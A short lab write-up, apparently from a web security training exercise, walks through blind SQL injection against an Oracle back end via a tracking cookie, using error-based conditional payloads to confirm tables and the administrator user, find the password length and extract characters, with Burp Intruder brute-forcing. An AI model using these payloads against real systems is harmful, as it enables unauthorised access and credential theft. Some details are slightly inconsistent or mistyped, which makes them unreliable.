

**Lab: Blind SQL injection with conditional errors**
*Vulnerable parameter - tracking cookie*
*- Goal:*
1. Exploit vulnerabilities to find out the password
2. Log in as `administrator`

*- Analysis:*

1. Prove that this parameter is vulnerable:

> ' || (select '' from dual) || ' 

-> 200 OK -> this is ORACLE database

> ' || (select '' from dualfiewjlow) || ' 

-> 500 error
2. Confirm that we have a user table in database:
> ' || (select '' from users where rownum = 1) || ' 

-> 200 OK: users table exists 

3. Confirm that we have a user `Administrator` existing in users table:
> ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') ||'

-> 500 internal server error -> administrator user exists 

> ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='jasdnlaksnd') ||'

-> 200 OK -> user does not exist in the database
4. Determine the length of the password of '`Administrator`:

> ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>20) ||'

-> 200 OK -> length is less than 50
-> 20 characters because from 19 to 20 status response is change from 500 to 200

5. Output the admin password:
> ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substring(password,1,1)='a') ||'

-> 500 interval server error: a is the first character

> Intruder -> Type:Brute Forcer -> Min_Max:1_1-> Set filter (pro version)

> Cluster bomb2 -> Type:Brute Forcer -> 2 payload

*`LAB SOLVED`*

